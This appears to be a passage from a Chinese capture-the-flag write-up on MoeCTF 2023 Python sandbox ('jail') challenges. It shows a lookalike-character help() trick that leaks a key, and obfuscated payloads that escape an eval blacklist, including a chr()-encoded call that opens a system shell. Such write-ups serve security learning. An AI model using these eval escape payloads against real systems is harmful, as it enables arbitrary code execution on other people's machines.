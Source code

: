 ### 方法2:
你禁用e，但是没有禁用hｅlp()啊！，我直接一手hｅlp()，然后输入__main__，那么
```python
DATA
    CHALLENGE_SOURCE_CODE = '\n    fake_key_into_local_but_valid_key_into_...
    WELCOME = '\n  __  __  ___       _      ______        _  __ ...       ...
    __annotations__ = {}
    challenge_choice = 'v'
    choice = 'e'
    code = 'hｅlp()'
    key_6366a131649a4e9b = '4e86eda06366a131649a4e9be1a9f217'
```
同样拿下

### 方法3:
你看看能不能用vars()?



---

## CHALLENGE: Jail Level 5

```python
    print("Welcome to the MoeCTF2023 Jail challenge.It's time to work on this calc challenge.")
    print("Enter your expression and I will evaluate it for you.")
    def func_filter(s):
      not_allowed = set('"'`bid')
      return any(c in not_allowed for c in s)
    user_input_data = input("> ")
    if func_filter(user_input_data):
      print("Oh hacker! Bye~")
      exit(0)
    if not user_input_data.isascii():
      print("Sorry we only ascii for this chall!")
      exit(0)
    print('Answer result: {}'.format(eval(user_input_data)))
```

不能用" ' ` b i d  但是只能ASCII！
eval()

### 方法1:
速通pdb
```python
vars(vars()[(*vars(),)[([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])]])[(*vars(vars()[(*vars(),)[([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])]]),)[([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])+([]==[])]]()
```

### 方法2:
```python
eval(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(34)+chr(111)+chr(115)+chr(34)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(34)+chr(115)+chr(104)+chr(34)+chr(41))
```
